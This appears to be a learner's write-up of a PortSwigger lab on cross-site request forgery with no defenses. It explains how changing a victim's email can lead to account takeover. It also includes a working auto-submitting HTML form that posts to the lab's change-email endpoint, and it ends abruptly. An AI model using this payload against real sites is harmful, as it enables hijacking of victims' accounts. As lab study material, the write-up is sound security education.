


# Lab: CSRF vulnerability with no defenses

- link to lab: https://portswigger.net/web-security/csrf/lab-no-defenses

## Steps and deep understanding

- In this laboratory, I found a "change email address" function which is vulnerable to CSRF. There is no protection against this vulnerability, such as a CSRF token or anything else.

- The mindset is: let's try to craft a malicious webpage and send it to our victim. Because if our victim is logged into the page, our malicious link can instantly submit an email change to a known address provided by you.

- What is the purpose of this attack? We can then perform a password change using our email address, which was changed on the victim's account when they clicked on the malicious link.

## Looking into the vulnerable function

- I logged into the platform looking for the change email address function. Then I inspect for discover what is the endpoint responsible:




- The endpoint is `/my-account/change-email`

## Crafting the HTML to make the CSRF

- Let's create our html form, store and send it to the victim using our exploit server

This code snippet consists of HTML and JavaScript.

The HTML part is a form that is set to submit a POST request to a specified URL:

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="email@example.com"> // the value contains your desired email to send in the request body
</form>
<script>
        document.forms[0].submit(); // auto submit the form
</script>
```

and.. Finally!

